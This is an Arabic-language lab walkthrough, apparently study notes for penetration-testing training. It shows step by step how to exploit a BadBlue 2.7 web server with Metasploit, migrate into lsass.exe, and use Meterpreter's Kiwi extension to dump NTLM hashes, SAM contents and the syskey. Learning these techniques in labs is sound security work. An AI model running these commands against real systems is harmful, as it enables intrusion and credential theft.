 ونلاحظ انه عطانا meterpreter shell  

طبعا مطلوب نقرا الفلاق والي هو هذا الامر  
[cat C:\\Users\\Administrator\\Desktop\\flag.txt]  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الثالث الي هو 

Windows: Meterpreter: Kiwi Extension
------------------------------------| 

طبعا الان راح نشوف مع بعض طريقة او اداة اخرى الي هي مرحلة مابعد الاستغلال وايش نقدر نسوي بعد الاستغلال مثل hashdump وغيرها من الاشياء الي ممكن تسويها بعد الاستغلال  

وهالمره راح نستخدم اداة اسمها Kiwi  

طبعا هذي الاداة او هذا الـ extension موجود في الـ meterpreter session  

فالبداية نحتاج ناخذ meterpreter session ف خلونا نسوي المعتاد وهو اولا انه نفحص ونشوف ايش الثغره الموجوده  

[nmap -sV 10.0.27.166]  

نشوف انه بورت 80 شغال وعليه سيرفر اسمه badblue 2.7 وهذا السيرفر بهذا الاصدار مصاب بثغرة اسمها Buffer Overflow راح نتسخدم الـ msfconsole عشان نستغل الثغره  

[msfconsole]  
[use exploit/windows/http/badblue_passthru]  
[show options]  
[set RHOSTS 10.0.27.166]  
[exploit] or [run]  

طبعا لابد نغير البروسس زي ماقلنا عشان مايقطع علينا الاتصال والان في حالتنا نجتاج نسوي hashdump ف بنحتاج نروح على بروسس اسمها lsass.exe زي ماذكرنا سابقا  
[migrate -N lsass.exe] عشان ننتقلل على هذا البروسس عن طريق الاسم وليس عن طريق الايدي  


والان نشوف انه اخذنا meterpreter session الان راح نستدعي الاداة عن طريق الامر التالي  
[load kiwi]  
[help] عشان نشوف كل الاوامر  

طبعا راح نسوي الي يهمنا منها والي هي  
[creds_all] وهذي عشان يسوي Dump للـ Administrator NTLM hash  
نشوف انه عطانا النتيجة ومعها كم معلومه زيادة  

والان عشان نطلع هاشات كل اليوزرات نسوي هذا الامر  
[lsa_dump_sam]  

نشوف انه عطانا كل الهاشات حق كل اليوزرات  

طيب الان مطلوب مننا الـ syskey او الـ system key  
[lsa_dump_secrets] هذا الامر عشان يسوي dump للـ syskey ومعلومات زيادة مثل الـ Local name , Domain name etc...  


الى هنا انتهى اللاب نشوف اللاب الي بعده مع بعض  

---
